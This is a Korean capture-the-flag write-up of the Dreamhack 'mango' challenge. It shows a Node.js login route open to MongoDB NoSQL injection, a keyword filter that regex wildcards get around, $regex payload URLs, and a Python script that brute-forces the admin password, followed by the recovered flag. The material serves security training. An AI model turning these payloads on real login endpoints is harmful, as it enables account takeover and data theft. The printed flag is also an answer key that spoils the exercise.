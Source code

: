 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (6) : Exercise"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# 드림핵 웹 [함께실습] mango
## 웹 서비스 분석

### 엔드포인트 : /login
이용자가 뭐리로 전달한 uid와 upw로 데이터베이스를 검색하고, 찾아낸 이용자의 정보를 반환한다.

```js
app.get('/login', function(req, res) {
    if(filter(req.query)){ // filter 함수 실행
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query; 
    db.collection('user').findOne({ // db에서 uid, upw로 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){ 
            res.send('err');
        }else if(result){ 
            res.send(result['uid']); 
        }else{
            res.send('undefined'); 
        }
    })
});
```

### filter 함수
일부 문자열을 필터링하는 함수로, login의 GET 핸들러를 살펴보면, 이용자의 요청에 포함된 쿼리를 filter 함수로 필터링한다. 해당 함수는 admin, dh, admi라는 문자열이 있을 때 true를 반환한다. (이러한 필터링은 인젝션이 발생할 수 있는 근본적 문제점을 해결하지 못하며, 보안상 안전한 코딩 방식이 아니다.)

```js
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];
filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
로그인 페이지를 구성하는 코드에서, 쿼리 전달부를 살펴보면, 쿼리의 변수 타입을 검사하지 않는다
```js
const {uid, upw} = req.query; // 이용자가 전송한 uid, upw 입력값을 가져옴
db.collection('user').findOne({ // db에서 uid, upw로 검색
    'uid': uid,
    'upw': upw,
}
```

1) Blind NoSQL Injection Payload 생성 <br><br>
MongoDB의 $regex 연산을 사용하여 정규표현식을 이용해 데이터를 검색할 수 있고, upw가 일치하는 경우 uid, 아닌 경우 undefined가 출력되는 것을 통해 쿼리의 참과 거짓을 확인할 수 있다.

```
http://host1.dreamhack.games:13698/login?uid=guest&upw[$regex]=.*
```

2) filter 우회 <br><br>
filter 함수가 특정 문자열을 필터링하지만, 정규표현식에서 임의 문자를 의미하는 .을 이용하면 쉽게 우회할 수 있다.

```
http://host1.dreamhack.games:13698/login?uid[$regex]=ad.in&upw[$regex]=D.{*
```
#### 익스플로잇

```python
import requests
import string

url = 'http://host3.dreamhack.games:10122/login?uid[$regex]=adm..&upw[$regex]=D.{'
alphanumeric = string.ascii_letters + string.digits
flag = ''

for i in range(32):
    for char in alphanumeric:
        res = requests.get(url + flag + char + '.*')
        if res.text == 'admin':
            flag += char
            print('DH{' + flag)
            break

print('DH{' + flag + '}')
```
위와 같이 브루트포스를 통해 모든 숫자, 알파벳을 넣어보며 한 글자씩 검사한다. 이 때, 반환되는 text가 admin이라면 해당 글자를 flag에 더해주며 순차적으로 출력한다. <br><br>
결과
```
DH{8
DH{89
DH{89e
DH{89e5
DH{89e50
DH{89e50f
DH{89e50fa
DH{89e50fa6
DH{89e50fa6f
DH{89e50fa6fa
DH{89e50fa6fafe26
DH{89e50fa6fafe260
DH{89e50fa6fafe2604
DH{89e50fa6fafe2604e
DH{89e50fa6fafe2604e3
DH{89e50fa6fafe2604e33
DH{89e50fa6fafe2604e33c
DH{89e50fa6fafe2604e33c0
DH{89e50fa6fafe2604e33c0b
DH{89e50fa6fafe2604e33c0ba
DH{89e50fa6fafe2604e33c0ba0
DH{89e50fa6fafe2604e33c0ba05
DH{89e50fa6fafe2604e33c0ba058
DH{89e50fa6fafe2604e33c0ba0584
DH{89e50fa6fafe2604e33c0ba05843
DH{89e50fa6fafe2604e33c0ba05843d
DH{89e50fa6fafe2604e33c0ba05843d3
DH{89e50fa6fafe2604e33c0ba05843d3d
DH{89e50fa6fafe2604e33c0ba05843d3df
DH{89e50fa6fafe2604e33c0ba05843d3df}
```